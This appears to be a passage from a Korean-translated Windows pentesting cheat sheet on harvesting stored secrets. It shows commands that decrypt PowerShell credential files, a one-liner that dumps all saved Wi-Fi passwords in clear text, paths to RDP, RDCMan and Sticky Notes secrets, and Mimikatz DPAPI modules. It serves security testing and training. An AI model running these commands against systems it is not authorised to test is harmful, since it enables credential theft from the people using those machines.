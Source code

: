 ### PowerShell Credentials

**PowerShell 자격 증명**은 종종 **스크립팅** 및 자동화 작업을 위해 암호화된 자격 증명을 편리하게 저장하는 방법으로 사용됩니다. 자격 증명은 **DPAPI**를 사용하여 보호되며, 일반적으로 이는 동일한 컴퓨터에서 생성된 동일한 사용자만 복호화할 수 있음을 의미합니다.

To **decrypt** a PS credentials from the file containing it you can do:
```powershell
PS C:\> $credential = Import-Clixml -Path 'C:\pass.xml'
PS C:\> $credential.GetNetworkCredential().username

john

PS C:\htb> $credential.GetNetworkCredential().password

JustAPWD!
```
### Wifi
```bash
#List saved Wifi using
netsh wlan show profile
#To get the clear-text password use
netsh wlan show profile <SSID> key=clear
#Oneliner to extract all wifi passwords
cls & echo. & for /f "tokens=3,* delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name="%b" key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on*
```
### 저장된 RDP 연결

`HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\`\
와 `HKCU\Software\Microsoft\Terminal Server Client\Servers\`에서 찾을 수 있습니다.

### 최근 실행된 명령어
```
HCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
HKCU\<SID>\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
```
### **원격 데스크톱 자격 증명 관리자**
```
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```
Use the **Mimikatz** `dpapi::rdg` 모듈과 적절한 `/masterkey`를 사용하여 **모든 .rdg 파일을 복호화**합니다.\
메모리에서 Mimikatz `sekurlsa::dpapi` 모듈을 사용하여 **많은 DPAPI 마스터키를 추출**할 수 있습니다.

### Sticky Notes

사람들은 종종 Windows 워크스테이션에서 StickyNotes 앱을 사용하여 **비밀번호** 및 기타 정보를 저장하지만, 이것이 데이터베이스 파일이라는 것을 인식하지 못합니다. 이 파일은 `C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite`에 위치하며 항상 검색하고 검토할 가치가 있습니다.

### AppCmd.exe
